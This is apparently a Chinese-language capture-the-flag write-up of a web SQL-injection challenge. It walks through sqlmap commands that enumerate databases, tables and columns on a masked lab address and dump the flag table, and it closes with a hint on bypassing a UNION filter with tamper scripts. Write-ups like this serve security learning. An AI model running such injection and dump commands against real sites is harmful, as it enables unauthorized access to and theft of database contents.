 CTF题目中一道WEB题目，知识点为SQL注入，题目来自[浙江大学AAA战队](https://zjusec.com)。

## 题目描述
点击题目链接后进入网站：  
![网站截图](./pic/SQLInjection.PNG)  
看样子是提交表单后会通过get方式向后台提交questionid，后台的php代码中执行sql语句根据questionid从数据库中查询信息。这里题目也给出了提示。 

>Q: 本题的Flag在哪?  
A: 在后台数据库中, 一个叫做flag_is_here的表中  

提示说明flag存放在flag_is_here的数据表中，接下来就要通过sql注入获取数据表中的信息。

>Q: 有什么工具可以帮我吗?  
A: sqlmap (请自行google)  

大佬们又给出了提示，用sqlmap

## 解题过程
先安装sqlmap，这么强大的工具在ubuntu下自然看看apt-get能不能装了：  
```shell
sudo pip install sqlmap
```
直接搞定，hin开心啊！但是不会用啊，还好hint中给出了[参考教程](http://www.freebuf.com/articles/web/29942.html)：  
首先表单里提交一个数据看看get请求格式：
```
http://10.214.xxx.xxx:xxxx/?questionid=1
```
以及有没有cookie，这里直接用chrome的插件看到是没有cookie的；  
接下来参照教程，用sqlmap进行注入:  
先试着获取以下当前数据库和用户名  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -b –current-db –current-user
```
貌似没有看到数据库和用户，菜鸡表示这里不太明白。
看看有哪几个数据库？
```
 sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" --dbs
```
可以查到有一个叫做**aaa_web2**的数据库  
查询一波数据表？  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 --tables
```
看到flag_is_here的数据表了，查询一波数据！  
```
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 -T flag_is_here --columns  
sqlmap -u"http://10.214.xxx.xxx:xxxx/?questionid=1" -D aaa_web2 -T flag_is_here -C an_extra_message,author,flag --dump
```
flag的值就被成功找到了！
题目中提示还有一个加分项，现在还没搞定。  
>Q: 有加分项吗?
A: 有, 本题限制了sqlmap的UNION注入
  判断questionid中是否出现了" union "(注意旁边的两个空格), 如果有, 则停止继续执行
  如果你能绕过这个限制, 能加分。 提示: 使用sqlmap的tamper